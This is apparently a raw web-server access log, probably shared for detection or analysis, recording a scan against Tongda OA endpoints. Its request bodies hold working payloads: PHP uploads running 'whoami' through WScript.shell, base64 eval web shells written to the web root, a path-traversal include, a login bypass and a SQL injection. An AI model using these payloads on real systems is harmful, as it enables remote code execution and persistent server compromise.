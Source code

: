 ```bash
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //module/appbuilder/assets/print.php HTTP/1.1"404 36 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:35 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 47 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" "-" "--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22Filename\x22\x0D\x0A\x0D\x0Aphp.jpg\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22ATTACHMENT\x22\x0D\x0A\x0D\x0A<?php $command='whoami';$wsh = new COM('WScript.shell');$exec = $wsh->exec('cmd /c '.$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>\x0D\x0A--88d153850f4cd9519a022a3e88cd6569--\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //mobile/api/api.ali.php HTTP/1.1"200 31 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "--502f67681799b07e4de6b503655f5cae\x0D\x0AContent-Disposition: form-data; name=\x22file\x22; filename=\x22fb6790f4tongda.json\x22\x0D\x0AContent-Type: application/octet-stream\x0D\x0A\x0D\x0A{\x22modular\x22:\x22AllVariable\x22,\x22a\x22:\x22ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0dG9uZ2RhLnBocCcsJzw/cGhwICRhPSJ+K2QoKSJeIiF7K3t9IjskYj0keyRhfVsieCJdO2V2YWwoIiIuJGIpOz8+Jyk7==\x22,\x22dataAnalysis\x22:\x22{\x5C\x22a\x5C\x22:\x5C\x22\xE9\x8C\xA6',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\x5C\x22}\x22}\x0D\x0A--502f67681799b07e4de6b503655f5cae--"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //inc/package/work.php?id=../../../../../myoa/attach/approve_center/2204/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4tongda HTTP/1.1"500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //fb6790f4tongda.php HTTP/1.1"404 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{C09D5F0C-5957-8F8D-E3C6-A1D23DF8CD6F}"
192.168.17.1 - - [15/Nov/2022:10:27:37 -0500] "POST //general/bi_design/appcenter/report_bi.func.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "_POST[dataset_id]=efgh'-@`'`)union select database(),2,user()#'&action=get_link_info&"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //general/file_folder/swfupload_new.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_ID\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_NAME\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22FILE_SORT\x22\x0D\x0A\x0D\x0A2\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22SORT_ID\x22\x0D\x0A\x0D\x0A------------GFioQpMK0vv2--"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{6047FF7A-0B4A-3311-E5A9-31D28A933872}"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 25 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "--********\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22png\x22\x0D\x0AContent-Type: image/jpeg\x0D\x0A\x0D\x0A<?php file_put_contents($_SERVER[\x22DOCUMENT_ROOT\x22].\x22//zskwgpaodw.php\x22,base64_decode(\x22PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJ4Il07ZXZhbCgiIi4kYik7Pz4=\x22).\x22zskwgpaodw\x22);?><?php unlink(__FILE__);echo \x22zskwgpaodw\x22;?>\x0D\x0A--********\x0D\x0A\x0D\x0A"
```